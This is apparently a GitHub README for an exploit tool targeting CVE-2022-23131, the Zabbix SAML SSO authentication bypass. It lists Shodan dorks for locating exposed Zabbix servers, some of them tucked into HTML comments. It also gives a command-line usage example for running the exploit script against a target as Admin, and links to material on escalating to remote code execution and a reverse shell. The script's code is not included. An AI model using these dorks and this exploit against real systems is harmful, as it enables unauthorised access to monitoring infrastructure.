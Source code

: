 # CVE-2022-23131
Zabbix - SAML SSO Authentication Bypass
- Shodan dorks:
```
title:Zabbix html:(SAML)
```
```
http.favicon.hash:892542951
```
```
"html: Zabbix" "html:(SAML)"
```
<!-- Here is an Easter Egg for inquiring minds
```
"html: Zabbix" "html:guest"
```
-->
- Usage
```
python3 zabbix_session_exp.py -t https:target.com -u Admin
```
### Demonstration Video (0:33)
[Zabbix - SAML SSO Authentication Bypass](https://youtu.be/xVY98l0QU-M)
<!-- Here is an Easter Egg for inquiring minds ;-)
RCE - https://habr.com/ru/companies/deiteriylab/articles/656829/
https://rioasmara.com/2022/04/16/exploit-zabbix-for-reverse-shell/
 -->
